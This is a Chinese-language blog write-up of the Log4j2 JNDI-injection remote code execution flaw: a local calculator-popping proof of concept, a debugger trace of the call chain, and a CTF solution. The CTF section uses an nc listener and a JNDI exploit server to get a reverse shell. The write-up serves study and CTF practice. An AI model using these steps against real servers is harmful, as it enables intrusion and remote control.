开摸

<!-- more -->


Log4j2是一个基于Java的日志框架，Apache Log4j的重构版本。新增的 Lookups 方法设计用于通过多种途径动态引入外部变量，log4j2版本 < log4j-2.15.0-rc2 可由JNDI注入实现远程代码执行。

转载请注明本文作者和地址。

---

## 0x01 漏洞复现

### 环境搭建

新建maven项目



### 创建完后



### 添加依赖

```
<dependency>
	<groupId>org.apache.logging.log4j</groupId>
	<artifactId>log4j-core</artifactId>
	<version>2.14.1</version>
</dependency>
<!-- https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api -->
<dependency>
	<groupId>org.apache.logging.log4j</groupId>
	<artifactId>log4j-api</artifactId>
	<version>2.14.1</version>
</dependency>
```




### 新建两个class

``` java
package org.example;
/*
 *    @Author: Err0r
 *    @date : 2021/12/10
 *    @file : log4j
 */

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;


public class log4j {
    private static final Logger logger = LogManager.getLogger(log4j.class);

    public static void main(String[] args) {
        logger.error("${jndi:ldap://127.0.0.1:1389/Log4jRCE}");
    }
}
```

``` java
package org.example;
/*
 *    @Author: Err0r
 *    @date : 2021/12/10
 *    @file : Log4jRCE
 */

public class Log4jRCE {
    static {
        try {
            String var0 = "open /System/Applications/Calculator.app";
            Runtime.getRuntime().exec(var0);
        } catch (Exception var1) {
            var1.printStackTrace();
        }
    }
}
```

### 编译



### 开启http服务

``` sh
python3 -m http.server 8888
```



### 到一个新的文件夹准备服务

``` sh
git clone git@github.com:mbechler/marshalsec.git
```

### 打包

``` sh
mvn clean package -DskipTests
```

### 上服务

``` sh
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"
```



运行log4j.java



## 0x02 流程分析

菜鸡蹩脚调试了半天，不知是否正确，还请大师傅们批评指正。

首先是一系列初始化操作，然后是我们的poc作为message传入`logMessage`(AbstractLogger.java)





然后进入`logMessageSafely`



接着进入`logMessageTrackRecursion`



指向`tryLogMessage`



再走到LoggerConfig的`log`



由`processLogEvent`来判定Event





在一系列跟进后发现了个`toSerializable`，里面用了它的format方法



里面会对首尾判断是否满足`${xxx}`逻辑

> // TODO can we optimize this? 很皮啊

然后进入了`replace`,`substitute`





调用了`StrSubtitutor`的`resolveVariable`



通过resolveVariable调用`lookup`



顺便研究一下`lookup`

这里

```
prefix = "jndi"
name = "ldap://127.0.0.1:1389/Log4jRCE"
lookup = {JndiLookup@2064} 
```

这里从`strLookupMap`的map里提取了jndi的lookup，然后在jndi的lookup方法里成功开花



`return Objects.toString(jndiManager.lookup(jndiName), null)`

这里就是`jndiManager.lookup('ldap://127.0.0.1:1389/Log4jRCE')`





```
return super.lookup(var1)
```

也就是`super.lookup('ldap://127.0.0.1:1389/Log4jRCE')`



```
var1 = "ldap://127.0.0.1:1389/Log4jRCE"
var2 (slot_2) = {ResolveResult@2676} 
var3 (slot_3) = {LdapCtx@2677} 
```

var2获取remote的class，即跳转到了我们之前编译的`Log4jRCE.class`



var3实例化，接着var3lookup，加载



然后就不必多说了，直接执行，遍地开花



---

## 0x03 题目

在12月10日晚间 [ctfshow](https://ctf.show/challenges#Log4j%E5%A4%8D%E7%8E%B0-1730)也上线了该漏洞的复现，利用思路如上，直接拿编译好的jar文件打

```sh
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -A [ip] -C "[payload]"
```

记得payload最好base64编码一下，以免出错。

其实在今年早些时候V&Nctf有道题也是`JNDI-Injection-Exploit`

[V&N ctf realezjvav](https://err0r.top/article/VN2021ctf/?highlight=realezjvav)

我发现我服务器上竟然还有源码，直接打就行了



### 1.服务器先起监听

```sh
nc -lvnp 1234
```



### 2.起服务

```sh
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -A [ip] -C "[payload]"
```



### 3.干它

```sh
${jndi:ldap://[ip]:[port]/[xxxx]}
```



直接弹到shell



---

## 参考

https://github.com/tangxiaofeng7/apache-log4j-poc

https://github.com/udoless/apache-log4j-rce-poc


转载请注明本文作者和地址